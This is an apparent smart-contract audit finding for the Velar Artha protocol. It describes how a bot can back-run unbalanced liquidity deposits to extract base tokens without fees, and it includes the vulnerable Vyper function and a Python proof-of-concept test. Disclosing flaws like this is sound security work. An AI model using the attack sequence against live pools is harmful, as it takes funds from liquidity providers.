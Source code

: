 Basic Felt Canary

High

# Unbalanced deposits with more base tokens than quote tokens can be back-run at the expense of LPs

high

# unbalanced deposits with more base tokens than quote tokens can be back-run at the expense of LPs

## Summary

The protocol allows for deposits of base tokens and quote tokens with any ratio of base tokens to quote tokens. If an LP deposits a larger amount of base tokens than quote tokens, the way the system calculates the amounts of tokens to return at burn allows for a bot to deposit a large amount of quote tokens to back-run the unbalanced deposit and swap base tokens with zero fees and zero slippage at the expense of LPs.

The bot just needs another market to profit from a no fee/zero slippage opportunity for an arbitrage where they can sell the acquired base tokens at a profit. 

This can be done by anybody monitoring for unbalanced deposits, price differences in this system versus other markets to profit from this opportunity.

## Vulnerability Detail

When a user burns LP tokens the function `calc_burn` in the `Pools.vy` contract calculates the ratio of base to quote tokens to return to LP based on the state of the pools.

https://github.com/sherlock-audit/2024-08-velar-artha/blob/18ef2d8dc0162aca79bd71710f08a3c18c94a36e/gl-sherlock/contracts/pools.vy#L219

Within this function, the `balanced` function in the `Math.vy` contract calculates the amount of base and quote tokens to return to the LP based on the ratio of base tokens to quote tokens in the pool.

This function tries to keep the pools as balanced as possible based on the current state, but after
an unbalanced deposit of more base tokens than quote tokens, the function will skew the amount of base tokens to return to the LP to be higher than the amount of quote tokens to return to the LP.

https://github.com/sherlock-audit/2024-08-velar-artha/blob/18ef2d8dc0162aca79bd71710f08a3c18c94a36e/gl-sherlock/contracts/math.vy#L140

```vyper
@external
@view
def balanced(state: Value, burn_value: uint256, ctx: Ctx) -> Tokens:
  """
  Given the current state of the pool reserves, returns a mix of tokens
  of total value burn_value which improves pool balance (we consider a
  pool balanced when te value of base reserves equals quote reserves).
  Note that if we have an imbalanced pool (which is not necessarily
  a bad thing), this means that LPs mostly get back the tokens they
  put in.
  The preconditions (burn_value <= reserves) for this must be
  checked at the call site!
  """
  if state.have_more_base:
    if state.base_excess_as_quote >= burn_value:
     #####  this line here returns all excess base tokens and 0 quote tokens allowing the swap
      return Tokens({base: Math(self).quote_to_base(burn_value, ctx), quote: 0})
    else:
      base1: uint256 = state.base_excess_as_base
      left : uint256 = burn_value - state.base_excess_as_quote
      quote: uint256 = left / 2
      base2: uint256 = Math(self).quote_to_base(quote, ctx)
      base : uint256 = base1 + base2
      return Tokens({base: base, quote: quote})
  else:
    if state.quote_excess_as_quote >= burn_value:
      return Tokens({base: 0, quote: burn_value})
    else:
      quote1: uint256 = state.quote_excess_as_quote
      left  : uint256 = burn_value - quote1
      quote2: uint256 = left / 2
      base  : uint256 = Math(self).quote_to_base(quote2, ctx)
      quote : uint256 = quote1 + quote2
      return Tokens({base: base, quote: quote})
```

This calculation enables the bot to deposit a large amount of quote tokens and burn the LP after to essentially receive all the "excess" base tokens in the pool at the expense of LPs who deposited more base tokens than quote tokens essentially making a zero fee, zero slippage swap of base tokens for quote tokens.

## Impact

In this scenario the LP that makes an unbalanced deposit with more base tokens than quote tokens is unknowingly selling their base tokens for quote tokens at the spot price which may not be favorable to them in several cases, for example if the price of base token is experience volatility.

This could lead them to experience a higher level of impermanent loss than they would have if they had deposited an adjusted ratio of base tokens to quote tokens.

## Proof of Concept

The following test added to `test_core3.py` showcases the scenario, VEL is the base token and STX is the quote token. Assuming VEL is higher priced 10x than STX.

```python
def test_backrun_swap_base_tokens(
    setup,
    core,
    mint,
    burn,
    swapbot,  # add this account to conftest and mint and approve 1_000_000 STX for swapbot
    lp_provider,
    lp_provider2,
    lp_provider3,
    VEL,
    STX,
    LP,
):
    setup()
    # assumes no opened positions for simplicity
    # this can be pulled off with any unlocked reserves right after unbalanced deposits
    print("\nstarting balances of swapbot for VEL STX tokens")
    # swapbot starts with 1_000_000 STX and 0 VEL
    print("balance of lp_provider VEL", VEL.balanceOf(swapbot))
    print("balance of lp provider STX", STX.balanceOf(swapbot))

    print("\nbalances of lp_provider1 to start for VEL STX tokens")
    print("balance of lp_provider1 VEL", VEL.balanceOf(lp_provider))
    print("balance of lp_provider1 STX", STX.balanceOf(lp_provider))

    print("\nbalances of lp_provider2 to start for VEL STX tokens")
    print("balance of lp_provider2 VEL", VEL.balanceOf(lp_provider2))
    print("balance of lp_provider2 STX", STX.balanceOf(lp_provider2))

    print("\nbalances of lp_provider3 to start for VEL STX tokens")
    print("balance of lp_provider3 VEL", VEL.balanceOf(lp_provider3))
    print("balance of lp provider3 STX", STX.balanceOf(lp_provider3))

    # Mint for lp_provider1
    tx = mint(VEL, STX, LP, d(10_000), d(100_000), price=d(10), sender=lp_provider)
    logs = core.Mint.from_receipt(tx)
    amt = logs[0].lp_amt
    logger.info(amt)

    # Mint for lp_provider2
    tx = mint(VEL, STX, LP, d(10_000), d(100_000), price=d(10), sender=lp_provider2)
    logs = core.Mint.from_receipt(tx)
    amt = logs[0].lp_amt
    logger.info(amt)

    # Mint for lp_provider3 using imbalance deposit to create opportunity for swapbot
    tx = mint(VEL, STX, LP, d(100_000), d(100_000), price=d(10), sender=lp_provider3)
    logs = core.Mint.from_receipt(tx)
    amt = logs[0].lp_amt
    logger.info(amt)
    
    # swapbot starts mint and burn after the unbalanced deposit with only quote tokens
    tx = mint(VEL, STX, LP, d(0), d(1_000_000), price=d(10), sender=swapbot)
    logs = core.Mint.from_receipt(tx)
    amt = logs[0].lp_amt
    logger.info(amt)
    print("\ncurrent balances after mint swapbot")
    print("balance of swapbot VEL mint", VEL.balanceOf(swapbot))
    print("balance of swapbot STX mint", STX.balanceOf(swapbot))

    print("balance of core VEL mint", VEL.balanceOf(core))
    print("balance of core STX mint", STX.balanceOf(core))

    lp_balance = LP.balanceOf(swapbot)
    tx = burn(VEL, STX, LP, lp_balance, price=d(10), sender=swapbot)
    assert not tx.failed, "swapbot burn"
    logger.info(tx.decode_logs(core.Burn))
    print("\nfinal balances after burn swapbot")
    print("balance of swapbot VEL burn", VEL.balanceOf(swapbot))
    print("balance of lp swapbot STX burn", STX.balanceOf(swapbot))
    # final balances after burn swapbot
    # balance of swapbot VEL = 45000000000
    # balance of lp swapbot STX = 550000000000

    lp_balance = LP.balanceOf(lp_provider3)
    tx = burn(VEL, STX, LP, lp_balance, price=d(10), sender=lp_provider3)
    assert not tx.failed, "lp_provider3 burn"
    logger.info(tx.decode_logs(core.Burn))
    print("\nfinal balances of lp_provider3")
    print("balance of lp_provider3 VEL after", VEL.balanceOf(lp_provider3))
    print("balance of lp_provider3 STX after", STX.balanceOf(lp_provider3))
    # balance of lp_provider3 VEL after 55000000000 receives less VEL for equal STX
    # balance of lp_provider3 STX after 550000000000

    ## every other provider receives their exact ratio of deposit back unaffected
    lp_balance = LP.balanceOf(lp_provider)
    tx = burn(VEL, STX, LP, lp_balance, price=d(10), sender=lp_provider)
    assert not tx.failed, "lp_provider burn"
    logger.info(tx.decode_logs(core.Burn))
    print("\nfinal balances of lp_provider")
    print("balance of lp_provider VEL after", VEL.balanceOf(lp_provider))
    print("balance of lp_provider STX after", STX.balanceOf(lp_provider))

    lp_balance = LP.balanceOf(lp_provider2)
    tx = burn(VEL, STX, LP, lp_balance, price=d(10), sender=lp_provider2)
    assert not tx.failed, "lpprovider2 burn"
    logger.info(tx.decode_logs(core.Burn))
    print("\nfinal balances of lp_provider2")
    print("balance of lp_provider2 VEL after", VEL.balanceOf(lp_provider2))
    print("balance of lp_provider2 STX after", STX.balanceOf(lp_provider2))
```

## Tool used

Manual Review and Testing

## Recommendation

When LP is attempting to deposit a highly unbalanced amount of base tokens to quote tokens, the system may used a similar logic to the `balanced` function in the `Math.vy` contract to calculate the amount of base and quote tokens to return to the LP based on the ratio of base tokens to quote tokens in the pool to keep the pools as balanced as possible based on the current state.
